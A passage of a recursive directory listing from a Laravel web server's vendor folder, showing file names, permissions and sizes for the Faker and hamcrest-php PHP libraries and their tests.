drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 3.6K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 3.8K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 DateTime.php
-rw-r--r--  1 www-data www-data  381 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.8K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  799 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/uk_UA:
total 404K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 9.6K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.9K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  288 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 3.7K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  599 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 364K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/vi_VN:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data  338 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.7K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/zh_CN:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 7.1K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 3.9K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 9.4K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 DateTime.php
-rw-r--r--  1 www-data www-data  695 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  957 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.4K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  688 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/zh_TW:
total 88K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  20K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 3.9K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 9.6K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 DateTime.php
-rw-r--r--  1 www-data www-data  303 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  230 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 6.1K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  386 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data  18K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/test:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Apr 29  2016 Faker
-rw-r--r-- 1 www-data www-data  481 Apr 29  2016 documentor.php
-rw-r--r-- 1 www-data www-data 1.3K Apr 29  2016 test.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker:
total 28K
drwxr-xr-x  4 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x  3 www-data www-data 4.0K Apr 29  2016 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 Calculator
-rw-r--r--  1 www-data www-data  710 Apr 29  2016 DefaultGeneratorTest.php
-rw-r--r--  1 www-data www-data 4.4K Apr 29  2016 GeneratorTest.php
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 Provider

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Calculator:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data  16K Apr 29  2016 IbanTest.php
-rw-r--r-- 1 www-data www-data 1.7K Apr 29  2016 LuhnTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider:
total 264K
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x  4 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data 1.2K Apr 29  2016 BarcodeTest.php
-rw-r--r--  1 www-data www-data  19K Apr 29  2016 BaseTest.php
-rw-r--r--  1 www-data www-data 2.9K Apr 29  2016 BiasedTest.php
-rw-r--r--  1 www-data www-data 1.5K Apr 29  2016 ColorTest.php
-rw-r--r--  1 www-data www-data  615 Apr 29  2016 CompanyTest.php
-rw-r--r--  1 www-data www-data 6.7K Apr 29  2016 DateTimeTest.php
-rw-r--r--  1 www-data www-data 2.4K Apr 29  2016 ImageTest.php
-rw-r--r--  1 www-data www-data 4.9K Apr 29  2016 InternetTest.php
-rw-r--r--  1 www-data www-data 1016 Apr 29  2016 LocalizationTest.php
-rw-r--r--  1 www-data www-data 3.1K Apr 29  2016 LoremTest.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 MiscellaneousTest.php
-rw-r--r--  1 www-data www-data 7.4K Apr 29  2016 PaymentTest.php
-rw-r--r--  1 www-data www-data 2.5K Apr 29  2016 PersonTest.php
-rw-r--r--  1 www-data www-data  716 Apr 29  2016 PhoneNumberTest.php
-rw-r--r--  1 www-data www-data 5.0K Apr 29  2016 ProviderOverrideTest.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 TextTest.php
-rw-r--r--  1 www-data www-data  908 Apr 29  2016 UserAgentTest.php
-rw-r--r--  1 www-data www-data  710 Apr 29  2016 UuidTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ar_JO
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ar_SA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 at_AT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 bg_BG
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 bn_BD
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 cs_CZ
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 da_DK
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 de_AT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 de_CH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 de_DE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_AU
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_CA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_IN
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_NZ
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_PH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_SG
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_UG
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_US
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_ZA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 es_ES
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fi_FI
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_BE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_CH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_FR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 id_ID
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 it_CH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 it_IT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ja_JP
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 mn_MN
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 nl_BE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 nl_NL
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 pt_BR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 pt_PT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ro_RO
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sv_SE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 uk_UA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 zh_TW

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/ar_JO:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/ar_SA:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/at_AT:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  624 Apr 29  2016 PaymentTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/bg_BG:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  628 Apr 29  2016 PaymentTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/bn_BD:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  664 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/cs_CZ:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/da_DK:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/de_AT:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php
-rw-r--r--  1 www-data www-data  573 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/de_CH:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data  740 Apr 29  2016 InternetTest.php
-rw-r--r--  1 www-data www-data  726 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/de_DE:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_AU:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 AddressTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_CA:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 AddressTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_IN:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 AddressTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_NZ:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  763 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_PH:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 AddressTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_SG:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  584 Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_UG:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  923 Apr 29  2016 AddressTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_US:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.3K Apr 29  2016 PaymentTest.php
-rw-r--r--  1 www-data www-data 2.6K Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/en_ZA:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  581 Apr 29  2016 CompanyTest.php
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php
-rw-r--r--  1 www-data www-data 1.9K Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/es_ES:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  925 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/fi_FI:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  709 Apr 29  2016 InternetTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/fr_BE:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  623 Apr 29  2016 PaymentTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/fr_CH:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data  740 Apr 29  2016 InternetTest.php
-rw-r--r--  1 www-data www-data  726 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/fr_FR:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.2K Apr 29  2016 CompanyTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/id_ID:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1003 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/it_CH:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data  740 Apr 29  2016 InternetTest.php
-rw-r--r--  1 www-data www-data  726 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/it_IT:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  475 Apr 29  2016 CompanyTest.php
-rw-r--r--  1 www-data www-data  520 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/ja_JP:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  883 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/mn_MN:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  608 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/nl_BE:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  623 Apr 29  2016 PaymentTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/nl_NL:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  768 Apr 29  2016 CompanyTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/pt_BR:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  588 Apr 29  2016 CompanyTest.php
-rw-r--r--  1 www-data www-data  811 Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/pt_PT:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  651 Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 PersonTest.php
-rw-r--r--  1 www-data www-data  733 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/ro_RO:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.6K Apr 29  2016 PersonTest.php
-rw-r--r--  1 www-data www-data  852 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/sv_SE:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.7K Apr 29  2016 PersonTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/uk_UA:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.3K Apr 29  2016 AddressTest.php
-rw-r--r--  1 www-data www-data  746 Apr 29  2016 PhoneNumberTest.php

/var/www/laravel/vendor/fzaninotto/faker/test/Faker/Provider/zh_TW:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 39 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.3K Apr 29  2016 TextTest.php

/var/www/laravel/vendor/hamcrest:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 hamcrest-php

/var/www/laravel/vendor/hamcrest/hamcrest-php:
total 60K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   18 May 11  2015 .coveralls.yml
-rw-r--r-- 1 www-data www-data   21 May 11  2015 .gitignore
-rw-r--r-- 1 www-data www-data  184 May 11  2015 .gush.yml
-rw-r--r-- 1 www-data www-data  358 May 11  2015 .travis.yml
-rw-r--r-- 1 www-data www-data 5.2K May 11  2015 CHANGES.txt
-rw-r--r-- 1 www-data www-data 1.5K May 11  2015 LICENSE.txt
-rw-r--r-- 1 www-data www-data 2.3K May 11  2015 README.md
-rw-r--r-- 1 www-data www-data  561 May 11  2015 TODO.txt
-rw-r--r-- 1 www-data www-data  584 May 11  2015 composer.json
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 generator
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 hamcrest
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 tests

/var/www/laravel/vendor/hamcrest/hamcrest-php/generator:
total 52K
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  611 May 11  2015 FactoryCall.php
-rw-r--r-- 1 www-data www-data 1.5K May 11  2015 FactoryClass.php
-rw-r--r-- 1 www-data www-data 3.1K May 11  2015 FactoryFile.php
-rw-r--r-- 1 www-data www-data 2.7K May 11  2015 FactoryGenerator.php
-rw-r--r-- 1 www-data www-data 5.6K May 11  2015 FactoryMethod.php
-rw-r--r-- 1 www-data www-data 1.8K May 11  2015 FactoryParameter.php
-rw-r--r-- 1 www-data www-data  931 May 11  2015 GlobalFunctionFile.php
-rw-r--r-- 1 www-data www-data  773 May 11  2015 StaticMethodFile.php
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 parts
-rw-r--r-- 1 www-data www-data 1.1K May 11  2015 run.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/generator/parts:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data  120 May 11  2015 file_header.txt
-rw-r--r-- 1 www-data www-data    0 May 11  2015 functions_footer.txt
-rw-r--r-- 1 www-data www-data  654 May 11  2015 functions_header.txt
-rw-r--r-- 1 www-data www-data    0 May 11  2015 functions_imports.txt
-rw-r--r-- 1 www-data www-data    2 May 11  2015 matchers_footer.txt
-rw-r--r-- 1 www-data www-data   86 May 11  2015 matchers_header.txt
-rw-r--r-- 1 www-data www-data   20 May 11  2015 matchers_imports.txt

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest:
total 36K
drwxr-xr-x  3 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 Hamcrest
-rw-r--r--  1 www-data www-data  22K May 11  2015 Hamcrest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest:
total 116K
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x  3 www-data www-data 4.0K May 11  2015 ..
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Arrays
-rw-r--r--  1 www-data www-data  119 May 11  2015 AssertionError.php
-rw-r--r--  1 www-data www-data 3.2K May 11  2015 BaseDescription.php
-rw-r--r--  1 www-data www-data  442 May 11  2015 BaseMatcher.php
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Collection
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Core
-rw-r--r--  1 www-data www-data 1.7K May 11  2015 Description.php
-rw-r--r--  1 www-data www-data  603 May 11  2015 DiagnosingMatcher.php
-rw-r--r--  1 www-data www-data 2.0K May 11  2015 FeatureMatcher.php
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Internal
-rw-r--r--  1 www-data www-data 1.6K May 11  2015 Matcher.php
-rw-r--r--  1 www-data www-data 3.4K May 11  2015 MatcherAssert.php
-rw-r--r--  1 www-data www-data  19K May 11  2015 Matchers.php
-rw-r--r--  1 www-data www-data  699 May 11  2015 NullDescription.php
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Number
-rw-r--r--  1 www-data www-data  535 May 11  2015 SelfDescribing.php
-rw-r--r--  1 www-data www-data 1.1K May 11  2015 StringDescription.php
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Text
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Type
-rw-r--r--  1 www-data www-data  841 May 11  2015 TypeSafeDiagnosingMatcher.php
-rw-r--r--  1 www-data www-data 2.9K May 11  2015 TypeSafeMatcher.php
-rw-r--r--  1 www-data www-data 2.0K May 11  2015 Util.php
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 Xml

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Arrays:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data 3.3K May 11  2015 IsArray.php
-rw-r--r--  1 www-data www-data 1.5K May 11  2015 IsArrayContaining.php
-rw-r--r--  1 www-data www-data 1.5K May 11  2015 IsArrayContainingInAnyOrder.php
-rw-r--r--  1 www-data www-data 1.4K May 11  2015 IsArrayContainingInOrder.php
-rw-r--r--  1 www-data www-data 2.0K May 11  2015 IsArrayContainingKey.php
-rw-r--r--  1 www-data www-data 2.3K May 11  2015 IsArrayContainingKeyValuePair.php
-rw-r--r--  1 www-data www-data 1.5K May 11  2015 IsArrayWithSize.php
-rw-r--r--  1 www-data www-data 1.6K May 11  2015 MatchingOnce.php
-rw-r--r--  1 www-data www-data 1.8K May 11  2015 SeriesMatchingOnce.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Collection:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data 1.4K May 11  2015 IsEmptyTraversable.php
-rw-r--r--  1 www-data www-data  923 May 11  2015 IsTraversableWithSize.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Core:
total 80K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data 1.5K May 11  2015 AllOf.php
-rw-r--r--  1 www-data www-data 1.3K May 11  2015 AnyOf.php
-rw-r--r--  1 www-data www-data 1.8K May 11  2015 CombinableMatcher.php
-rw-r--r--  1 www-data www-data 1.9K May 11  2015 DescribedAs.php
-rw-r--r--  1 www-data www-data 1.4K May 11  2015 Every.php
-rw-r--r--  1 www-data www-data 1.3K May 11  2015 HasToString.php
-rw-r--r--  1 www-data www-data 1.4K May 11  2015 Is.php
-rw-r--r--  1 www-data www-data  875 May 11  2015 IsAnything.php
-rw-r--r--  1 www-data www-data 2.2K May 11  2015 IsCollectionContaining.php
-rw-r--r--  1 www-data www-data  835 May 11  2015 IsEqual.php
-rw-r--r--  1 www-data www-data  708 May 11  2015 IsIdentical.php
-rw-r--r--  1 www-data www-data 1.7K May 11  2015 IsInstanceOf.php
-rw-r--r--  1 www-data www-data  826 May 11  2015 IsNot.php
-rw-r--r--  1 www-data www-data  976 May 11  2015 IsNull.php
